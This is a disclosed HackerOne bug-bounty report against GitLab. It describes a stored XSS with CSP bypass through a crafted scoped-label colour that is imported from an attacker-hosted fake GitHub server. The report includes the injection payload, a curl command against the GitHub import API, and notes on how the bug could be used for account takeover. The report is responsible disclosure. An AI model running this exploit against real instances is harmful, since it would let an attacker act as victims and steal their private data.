 # Bypass: Stored-XSS with CSP-bypass via scoped labels' color

## Report Details
- **Report ID**: 1693150
- **URL**: https://hackerone.com/reports/1693150
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-09-07T09:13:22.922Z
- **Disclosed**: 2023-02-19T22:43:39.198Z

## Reporter
- **Username**: yvvdwf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Hi team,

The [Stored-XSS with CSP-bypass via labels' color](https://hackerone.com/reports/1665658) has been mitigated in [Gitlab 15.3.2](https://about.gitlab.com/releases/2022/08/30/critical-security-release-gitlab-15-3-2-released/#stored-xss-via-labels-color). However it is not enough because it missed the case of [scoped label](https://gitlab.com/gitlab-org/gitlab/-/blob/85041966ed3eba23ee530a20c2eee374ef6e8617/ee/app/helpers/ee/labels_helper.rb#L33).

I notified this missing in the [original report](https://hackerone.com/reports/1665658#activity-18273269) and @galfaro encouraged me to submit a new report about this.


# Step to reproduce:

- To reproduce, we need the following prerequisites:

   + [Scoped labels](https://docs.gitlab.com/ee/user/project/labels.html#scoped-labels) are available in Gitlab Premium, so we need a premium account that can be obtained via the [free trial](https://about.gitlab.com/free-trial/)
   + A Gitlab personal access token. Go [here](https://gitlab.com/-/profile/personal_access_tokens?name=test&scopes=api) to create a new token with within `api` scope.

- Github does not allow to create arbitrary label colors. You can find in the attachment a dummy Github server in which we set a new label:
   + name: `yvvdwf::label-name` (the `::` to scope the label)
   + color: `">yvvdwf-label<form class='hidden gl-show-field-errors'><input title='<script>alert(document.domain)</script>'>`

- To easily reproduce, I'm hosting the dummy Github server at my own VPS, `http://51.75.74.52:11211`, I will shut it down once you validated the report.

- Open a new terminal, then run the following command, in which:
   + `$GL_TOKEN` is the the api token you've created above
   + `yvvdwf-group-a` is a group (or account) name having premium features


For example:

```bash
curl -kv "https://gitlab.com/api/v4/import/github" \
  --request POST \
  --header "content-type: application/json" \
  --header "PRIVATE-TOKEN: $GL_TOKEN" \
  --data '{
    "personal_access_token": "ghp_aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",
    "repo_id": "523303538",
    "target_namespace": "yvvdwf-group-a",
    "new_name": "xss-on-label-color",
    "github_hostname": "http://51.75.74.52:11211"
}'
```

- After finishing, you can view the list of the label of the imported project. You should see a popup created by this javascript `alert(document.domain)`

- Since we can control the label color, we can create a Stored-XSS with CSP-bypass on another place rather than the page that lists the labels, such as, an issue or a merged request of another project by using [GitLab-specific references](https://docs.gitlab.com/ee/user/markdown.html#gitlab-specific-references)

# Example:

- https://gitlab.com/yvvdwf-group-a/xss-on-label-color/-/labels
- https://gitlab.com/yvvdwf-group-a/xss-on-label-color/-/issues/1

# Output of checks

This bug happens on GitLab.com

# Impact

Stored-XSS with CSP-bypass allows attackers to execute arbitrary actions on behalf of victims at the client side.

Beside that, I would like to clarify some other metrics in the CVSS (the text in **bold** is copied from [your cvss calculator](https://gitlab-com.gitlab.io/gl-security/appsec/cvss-calculator) )

- `AC:L`: **Stored XSS on a page that's part of the user's normal workflow (issue or merge request page)**: As I mentioned above the store-XSS is on the issue/MR requests of a project the attack may create an issue/MR
- `PR:N`: **The attacker is logged out - PR:N - but the victim is logged in**: The stored-XSS still exist even the attacker is logged out. 
- `C:H`: **Access tokens, runner tokens. Private repositories**: Indeed the XSS allows to execute any Rest API on behalf of the victim to get almost arbitrary private information of the victim (unless his password). It can even perform a *fake* account-take-over by changing the victim's username and immediately register a new account within the victim's username (as changing username does not require to confirm password)
- `A:L`: This Store-XSS with CSP-bypass can easily create DoS at the client side by exhausting CPU and RAM of the victim's Web browser. It can also be used to send as much as possible the requests to the server. The number of requests can increase by the number of victims who are viewing the XSS.

Best regards,

## Impact

Stored-XSS with CSP-bypass allows attackers to execute arbitrary actions on behalf of victims at the client side.

## Attachments
- dummy-server-scoped-label.tar.gz
